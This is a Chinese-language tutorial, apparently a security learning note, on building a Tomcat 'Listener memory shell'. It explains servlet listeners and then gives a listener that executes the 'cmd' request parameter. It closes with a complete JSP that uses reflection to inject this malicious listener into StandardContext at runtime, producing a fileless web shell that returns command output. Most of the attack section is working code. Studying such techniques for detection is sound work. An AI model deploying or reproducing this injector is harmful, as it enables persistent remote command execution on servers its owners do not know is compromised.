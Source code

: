 # Listener内存马

Listener 它是 JavaEE 的规范，就是接口。用于监听 JavaWeb 程序中的事件。（如：ServletContext、HttpSession、ServletRequest的创建、修改和删除）

监听器的作用是，监听某种事物的变化。然后通过回调函数，反馈给客户（程序）去做一些相应的处理。

在 JavaWeb 中，可以为某些事件来设置监听器，当事件被触发时，监听器中的指定方法会被调用。

Servlet程序、Filter 过滤器 和 Listener 监听器 并称 WEB 的三大组件。

Listener 的原理是基于观察者模式的，所谓的观察者模式简单来说，就是当被观察者的特定事件被触发（一般在某些方法被调用后），会通知观察者（调用观察者的方法），观察者可以在自己的的方法中来对事件做一些处理。

## Java Web中常见的Listener类型

|类型|触发事件|
| ------------------------| ----------------------------------------------------------------------------------------|
|ServletContextListener|在ServletContext创建和关闭时都会通知ServletContextListener监听器。|
|HttpSessionListener|当一个HttpSession刚被创建或者失效（invalidate）的时候，将会通知HttpSessionListener监听|
|ServletRequestListener|在ServletRequest创建和关闭时都会通知ServletRequestListener监听器|

## ServletRequestListener的生命周期

![image](assets/image-20250619095415-queqcu7.png)

## 尝试写一个自己的Listener

1. 新建一个基础web项目，并添加一个自己的Listener

![image](assets/image-20250708131322-jl6ttga.png)

![image](assets/image-20250708131338-pvqhh4o.png)

在pom.xml中配置依赖

```xml
 <dependency>
            <groupId>javax.servlet</groupId>
            <artifactId>javax.servlet-api</artifactId>
            <version>4.0.1</version>
            <scope>provided</scope>
        </dependency>
        <dependency>
            <groupId>org.apache.tomcat</groupId>
            <artifactId>tomcat-catalina</artifactId>
            <version>8.0.53</version>
        </dependency>
```

添加MyListener类

![image](assets/image-20250708131433-st6uxji.png)

编写如下类

```jsp
package com.example.memshell;

import jakarta.servlet.ServletRequest;
import jakarta.servlet.ServletRequestEvent;
import jakarta.servlet.ServletRequestListener;
import java.io.IOException;

public class MyListener implements ServletRequestListener {
    public void requestInitialized(ServletRequestEvent sre) {
      ServletRequest req = sre.getServletRequest();
      String cmd = req.getParameter("cmd");
      if (cmd != null) {
          try {
              Runtime.getRuntime().exec(cmd);
          } catch (IOException e) {
              throw new RuntimeException(e);
          }
      }
    }
  }
```

修改web.xml配置

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="https://jakarta.ee/xml/ns/jakartaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="https://jakarta.ee/xml/ns/jakartaee https://jakarta.ee/xml/ns/jakartaee/web-app_6_0.xsd"
         version="6.0">
    <listener>
        <listener-class>com.example.memshell.MyListener</listener-class>
    </listener>
</web-app>
```

测试运行效果

![image](assets/image-20250708132326-nw02ojd.png)

知道了基本原理之后就需要探究如何在Web应用运行时注入Listener。

在Listener方法中加入断点，并调试运行后触发断点

![image](assets/image-20250708132654-ot1bemg.png)

发现方法是由StandardContext.fireRequestInitEvent()调用

![image](assets/image-20250708132515-9a1x91w.png)

并且发现调用的Listener来自StandardContext中的applicationEventListenersList。那么事情到此就解决了。

步骤如下

1. 动态创建一个Listener类，
2. 通过反射获取StandardContext.applicationEventListenersList属性
3. 将创建的类添加进applicationEventListenersList列表

那么自然会在请求时触发我们动态创建的Listener类。

那么jsp怎么写呢

```jsp
<%@ page import="java.lang.reflect.*" %>
<%@ page import="org.apache.catalina.core.*" %>
<%@ page import="javax.servlet.*" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.InputStreamReader" %>
<%@ page import="java.io.BufferedReader" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%--声明一个恶意Filter--%>
<%!
    public class ListenerShell implements ServletRequestListener {
        @Override
        public void requestInitialized(ServletRequestEvent sre) {
            ServletRequest req = sre.getServletRequest();
            Class reqClass = req.getClass();
            try {
                Field field = reqClass.getDeclaredField("request");
                field.setAccessible(true);
                Response  resp = ((Request) field.get(req)).getResponse();
                String cmd = req.getParameter("cmd");
                if (cmd != null) {
                    Process proc = Runtime.getRuntime().exec(cmd);
                    BufferedReader br = new BufferedReader(
                            new InputStreamReader(proc.getInputStream()));
                    String line;
                    while ((line = br.readLine()) != null) {
                        resp.getWriter().println(line);
                    }
                    br.close();
                }
            } catch (Exception e) {
                throw new RuntimeException(e);
            }

        }

        @Override
        public void requestDestroyed(ServletRequestEvent servletRequestEvent) {}


    }
%>
<%--从ServletContext中获取StandardContext--%>
<%
    // 从request中获取servletContext
    ServletContext servletContext = request.getServletContext();
    // 从servletContext中获取applicationContext
    Field applicationContextField = servletContext.getClass().getDeclaredField("context");
    applicationContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);
    // 从applicationContext中获取standardContext
    Field standardContextField = applicationContext.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
%>
<%--动态注册恶意Listener--%>
<%
    standardContext.addApplicationEventListener(new ListenerShell());
%>
```

‍
